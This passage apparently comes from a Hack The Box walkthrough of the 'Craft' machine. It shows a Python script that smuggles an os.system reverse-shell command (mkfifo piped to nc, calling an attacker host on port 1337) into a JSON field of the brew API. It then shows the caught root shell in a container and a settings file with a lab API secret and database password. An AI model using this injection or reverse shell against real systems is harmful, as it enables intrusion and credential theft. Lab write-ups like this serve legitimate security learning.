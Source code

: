 ```python
    "style": "test",
    "abv":"__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.81 1337 >/tmp/f')"
}

json_data = json.dumps(brew)
print(json_data)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)
```

Let's start a netcat listener and run the exploit to get a shell:
```
$ nc -l 1337
/opt/app # whoami
root
```

At first it looks like we are root but looking around we find that we are inside
an Alpine machine, probably a container:
```
/opt/app # cat /etc/os-release
NAME="Alpine Linux"
ID=alpine
VERSION_ID=3.9.0
PRETTY_NAME="Alpine Linux v3.9"
HOME_URL="https://alpinelinux.org/"
BUG_REPORT_URL="https://bugs.alpinelinux.org/"
```

There's an interesting file in that was in the `.gitignore` on the repo that now
we can read:
```
/opt/app # cat craft_api/settings.py
# Flask settings
FLASK_SERVER_NAME = 'api.craft.htb'
FLASK_DEBUG = False  # Do not use debug mode in production

# Flask-Restplus settings
RESTPLUS_SWAGGER_UI_DOC_EXPANSION = 'list'
RESTPLUS_VALIDATE = True
RESTPLUS_MASK_SWAGGER = False
RESTPLUS_ERROR_404_HELP = False
CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

# database
MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
SQLALCHEMY_TRACK_MODIFICATIONS = False
```
